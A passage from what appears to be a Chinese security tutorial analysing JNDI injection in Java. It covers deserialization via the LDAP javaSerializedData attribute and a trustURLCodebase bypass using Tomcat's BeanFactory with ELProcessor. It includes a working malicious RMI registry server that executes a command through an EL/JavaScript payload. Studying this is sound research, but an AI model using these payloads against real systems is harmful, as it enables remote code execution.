            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
```

此处`(var1 = var0.get(JAVA_ATTRIBUTES[1])) != null`判断`JAVA_ATTRIBUTES[1]`是否为空，如果不为空则进入`deserializeObject`进行反序列操作

其中`JAVA_ATTRIBUTES`在`com.sun.jndi.ldap.Obj`中定义为

```
static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
```

`JAVA_ATTRIBUTES[1]`为`javaSerializedData`，所以我们可以LDAP修改`javaSerializedData`为我们的恶意序列化数据，然后客户端进行反序列化进而到达RCE。

跟进`com.sun.jndi.ldap.Obj#deserializeObject`，可以看到`var5 = ((ObjectInputStream)var20).readObject();`此处对`var20`（也就是从`javaSerializedData`中读取的序列化数据）进行了反序列化

```
private static Object deserializeObject(byte[] var0, ClassLoader var1) throws NamingException {
    try {
        ByteArrayInputStream var2 = new ByteArrayInputStream(var0);

        try {
            Object var20 = var1 == null ? new ObjectInputStream(var2) : new Obj.LoaderInputStream(var2, var1);
            Throwable var21 = null;

            Object var5;
            try {
                var5 = ((ObjectInputStream)var20).readObject();
            } catch (Throwable var16) {
                var21 = var16;
                throw var16;
            } finally {
                if (var20 != null) {
                    if (var21 != null) {
                        try {
                            ((ObjectInputStream)var20).close();
                        } catch (Throwable var15) {
                            var21.addSuppressed(var15);
                        }
                    } else {
                        ((ObjectInputStream)var20).close();
                    }
                }

            }

            return var5;
        } catch (ClassNotFoundException var18) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var18);
            throw var4;
        }
    } catch (IOException var19) {
        NamingException var3 = new NamingException();
        var3.setRootCause(var19);
        throw var3;
    }
}
```

服务端代码可以参考`marshalsec`，然后添加对应属性`javaSerializedData`为我们的Gadgets序列化的数据即可

```
e.addAttribute("javaSerializedData", GadgetsData);
```

## 通过加载本地类

之前在分析RMI的时候提到过在加载远程类之前,会先加载本地类

在`JDK 11.0.1、8u191、7u201、6u211之后`之后`com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值为`false`，我们就不能再从远程的`Codebase`加载恶意的`Factory`类了,那假如加载的是本地类呢

需要注意的，该工厂类型必须实现`javax.naming.spi.ObjectFactory` 接口，因为在`javax.naming.spi.NamingManager#getObjectFactoryFromReference`最后的`return`语句对工厂类的实例对象进行了类型转换`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`；并且该工厂类至少存在一个 `getObjectInstance()` 方法才能在前面调用

https://www.veracode.com/blog/research/exploiting-jndi-injections-java的作者找到可利用的类为：`org.apache.naming.factory.BeanFactory`，并且该类存在于Tomcat依赖包中，所以利用范围还是比较广泛的

添加依赖

```
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端

```
package JNDI.Bypass.loader;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```

客户端

```
package JNDI.Bypass.loader;

import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("rmi://127.0.0.1:1097/Object");
    }
}
```

不过这里因为的el包没导入成功,就没有再进行复现了,具体的过程https://xz.aliyun.com/t/8214#toc-2也有


参考链接

https://xz.aliyun.com/t/8214

https://www.anquanke.com/post/id/221917#h2-7

https://xz.aliyun.com/t/6633

https://blog.csdn.net/u011479200/article/details/108246846

https://blog.csdn.net/will__be/article/details/117412180